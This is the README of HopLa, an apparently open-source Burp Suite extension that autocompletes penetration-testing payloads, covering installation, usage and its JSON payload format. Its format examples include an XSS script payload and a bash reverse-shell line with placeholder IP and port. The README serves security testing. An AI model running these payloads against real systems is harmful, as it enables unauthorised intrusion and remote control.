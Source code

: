 # HopLa

💥 All the power of PayloadsAllTheThings, without the overhead. 
This extension adds autocompletion support and useful payloads in Burp Suite to make your intrusion easier.

Feel free to improve with your payloads ! ❤️

Developed by Alexis Danizan [![Twitter Follow](https://img.shields.io/twitter/follow/alexisdanizan?style=social)](https://twitter.com/alexisdanizan/)  
Released as open source by [Synacktiv 🥷](https://www.synacktiv.com/) 


![Demo GIF](img/demo.gif)

## Getting started


### Installation

 * Download the jar file from the release directory
 * Add it to Burp Suite using the Extender tab

### Build

Execute `gradle build` and you'll have the plugin ready in `releases/HopLa.jar`.

## Usage

By default HopLa is shipped with default payloads. You can add yours by loading a custom JSON file in the the menu. 

At the first usage HopLa creates a JSON file containing all the payloads in the jar file directory.

Press `Ctrl+Q` to display the payload library menu.

You can disable the global autocompletion in the top menu.

For i3, add the following line to `$HOME/.config/i3/config` for floating frame:

```
for_window [class=".*burp-StartBurp.*" title="^ $"] floating enable
```

### How to add payloads

The JSON payloads file follow the structure:

```json
{
    "categories": [
        {
            "name": "XSS",
            "values": [
                {
                    "name": "Simple",
                    "value": "<script>alert(1)</script>"
                },
                {
                    "name": "Multiline",
                    "value": "AAAA\nBBBB"
                },
                {
                    "name" : "Nested XSS menu",
                    "values": [
                        {
                            "name": "Simple 2",
                            "value": "<script>alert(1)</script>"
                        }
                    ]
                }
            ]
        }
    ],
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```
There is no nesting limit.

You can automatically add a prompt dialog:
```json
{
    "name":  "Bash UDP",
    "value":  "sh -i >& /dev/udp/§IP§/§PORT§ 0>&1",
    "prompt": ["IP","PORT"]
},
```

To add only keywords that do not appear in the menu, you can add them in the keywords category:

```json
{
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```

## Roadmap

* Support custom key binding for payload menu

## Thanks To

 * https://github.com/Static-Flow/BurpSuiteAutoCompletion
 * https://github.com/d3vilbug/HackBar
 * https://github.com/swisskyrepo/PayloadsAllTheThings

Thanks a lot for your awesome work !

## License

Released under BSD 3-Clause License see LICENSE for more information

Please feel free to report bugs, suggest features, or send pull requests.
